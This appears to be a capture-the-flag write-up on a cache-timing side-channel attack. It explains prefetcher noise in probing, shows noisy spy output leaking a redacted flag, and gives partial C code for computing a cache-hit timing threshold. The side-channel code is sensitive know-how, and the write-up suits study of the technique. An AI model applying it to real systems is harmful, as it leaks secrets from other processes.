 # Circumvent the problems
Using a sequence like this can cause a lot of noise because of two major problems:
```
unsigned char set0[]="-0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz{}";
watch(base,set0,strlen((const char *)set0));
```
- the set loop is too long that it may not be completed while the interest variable is in the cache
- It is made of sequences that are in order so may induce the hardware prefetcher to pull nearby lines. If the prefetcher pulls the line associated to 0 an then the next 10 ```(160*(sizeof(wchar_t))/64)``` lines it pulls the line associated to the number 1, causing a false positive.

example of the output of this approach:
```
./spy 
REDA-C}-CTF-BR{REDA--TEDREDA---CTEDREDACTEDREDA--C}-CTF-BDCTE-REDA-C}C-TF-{EBRDA-CTEDREDA-CTEDREACTEDREDA--C}-CTF-BR{RED-ACTEDREDA-CTEDREDA-------------------------------CTEDR-D---------------------AC}CTF-BR{REDA-CTEDREDA-CTEDREDA-CTEDREDAC}-CTF-BR{REDA-C--TEDREDRDACTEDR-E--DA---------C}CTF-BR{REDA-CTEDREDA-CTEDREDA-CTEDREDAC}--CTF-BR{REDA-CTEDREDA-----------------CTEDREDA-C--T--EDREDA---C}-EDA-C}-CTF-BR{REDA-C-TEDREDA-TEDREDA-C--TEDRECTF-BR{REDA-CTEDREDA-CTEDREDA-CTED-REDA-C}---CTF-BR{REDA-CTED-EDA-CTEDREDA-CTEDREDC}CTF-BRREDACTEDREDACTEDREDA-CTEDREDA-CCTF-BR{REDA-CTEDREDA-CTED-REDACTEDREDA-}--CTF-BR{RED-ACTEDREDA-CTEDREDA-CTEDREDA--C}CTF-BR{REDACTED-REDA--CTED-REDA-CTEDREA-C}-CTF-BR{REDA-C--EDEA--C-TEDREDA--CTEDREDA-C-}---CTF-B-R{REDA-CTE
```

# Making a more optimized approach 
- inseted of probing for all ascii characters , first discover what characters are being used
- never use a string with sequence chars as argument to the probe loop, always mix them to avoid prefetcher noise.
 

```
char globalVar[4096]={1,4,7,8,5,9,1};
int threshold;

//lets compute the limit of what is cache and what is main memory
void computeThreshold(){

  unsigned long t1,t2;
  unsigned long count=0;
  double total_access,total_evict;

  total_access=0;
  total_evict=0;
  for(unsigned i=0;i<(TOTAL_TESTS *2);i++){
    if (i%2==0){
      maccess((void *)&globalVar[44]);
    }
    t1=probe_timing((void *)&globalVar[44]);
    count++;
    if (i%2==0){
      //printf("time w acess: %lu\n",t1);
      total_access+=(double)t1;

    }
    else{
      //printf("time no acess: %lu\n",t1);
      total_evict+=(double)t1;
    }
    //ensures that clflush will be called before entering in a new loop test
    asm __volatile__("mfence\nlfence\n");
  
  }
  total_access=total_access/TOTAL_TESTS;
```
